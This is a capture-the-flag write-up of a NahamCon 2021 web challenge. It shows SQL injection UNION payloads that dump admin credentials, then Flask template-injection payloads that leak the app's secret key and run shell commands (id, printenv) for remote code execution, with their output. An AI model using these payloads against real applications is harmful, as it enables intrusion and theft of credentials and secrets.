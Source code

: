 ```yaml
---
title: AgentTesterV1
description: AgentTesterV1 Nahamcon 2021 challenge write up.
---
```


# AgentTesterV1 <a href='/assets/resources/CTFs/Nahamcon_2021/AgentTesterV1-resources.zip' title="Download resources"> :material-folder-zip:{:alt="Download resources"} </a>

The code of the aplication was provided and looking at the code we can see that is vulnerable to sql injection (Later i discovered that this wasnt really necessary because the tables names can be checked in the aplication files but hey, is cool):

`SELECT userAgent, url FROM uAgents WHERE userAgent = '%s'`


Lets get the tables names:
`' UNION SELECT name, name FROM sqlite_master WHERE type='table' --`
`' UNION SELECT name, name FROM sqlite_master WHERE type='table' and name!="uAgents"--`

Table names:
- uAgents
- user

The user table is what we want here i guess. Lets try this:

`' UNION SELECT username, password FROM user --`

And the page gave us: `Testing User-Agent: admin in url: *)(@skdnaj238374834**__**=` cool! So we now have the admin credentials:

```
admin:*)(@skdnaj238374834**__**=
```

Also we can use whatever endpoint and user agent we want:

`' UNION SELECT 'AgentTester v1','https://hookb.in/oXYJDgO6yzS1mmLaRZax' --`


Next, i noticed that the endpoint `/debug` exists (The challenge provided the code but im silly and didnt take a look until now). Looking at the app code, i noticed that it ask for a specific session ID, probably the admin user. I got the admin user so was not too hard to get access to it using Postman (Just copied the header `Cookie` from my browser to Postman). 

After some research, looks like we can inject flask under the key `code` with a POST form to the `/debug` endpoint. For example:

```
code:{{config}}

<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': '1L5&wnIh4!Rz6Ufo^iY?aRyV2qXM+kz5', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'auth', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///DB/db.sqlite', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```

Funny. What about this:

```
code:{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

uid=1000(uwsgi) gid=0(root) groups=0(root)
```

So we have remote code execution. After some digging i found the flag listing all the envars of the machine:

```
code:{{request.application.__globals__.__builtins__.__import__('os').popen('printenv').read()}}

BASE_URL=challenge.nahamcon.com KUBERNETES_SERVICE_PORT=443 KUBERNETES_PORT=tcp://10.116.0.1:443 UWSGI_ORIGINAL_PROC_NAME=uwsgi HOSTNAME=agenttester-691977e06298952e-5c9d4d6f8f-ssqhz SHLVL=1 PYTHON_PIP_VERSION=21.0.1 PORT= HOME=/root GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568 _=/usr/local/bin/uwsgi PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/b60e2320d9e8d02348525bd74e871e466afdf77c/get-pip.py KUBERNETES_PORT_443_TCP_ADDR=10.116.0.1 PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin KUBERNETES_PORT_443_TCP_PORT=443 KUBERNETES_PORT_443_TCP_PROTO=tcp LANG=C.UTF-8 CHALLENGE_FLAG=flag{fb4a87cfa85cf8c5ab2effedb4ea7006} PYTHON_VERSION=3.8.8 ADMIN_BOT_PASSWORD=*)(@skdnaj238374834**__**= KUBERNETES_SERVICE_PORT_HTTPS=443 KUBERNETES_PORT_443_TCP=tcp://10.116.0.1:443 CHALLENGE_NAME=AgentTester PWD=/app ADMIN_BOT_USER=admin KUBERNETES_SERVICE_HOST=10.116.0.1 PYTHON_GET_PIP_SHA256=c3b81e5d06371e135fb3156dc7d8fd6270735088428c4a9a5ec1f342e2024565 UWSGI_RELOADS=0
```

Flag: `flag{fb4a87cfa85cf8c5ab2effedb4ea7006}`
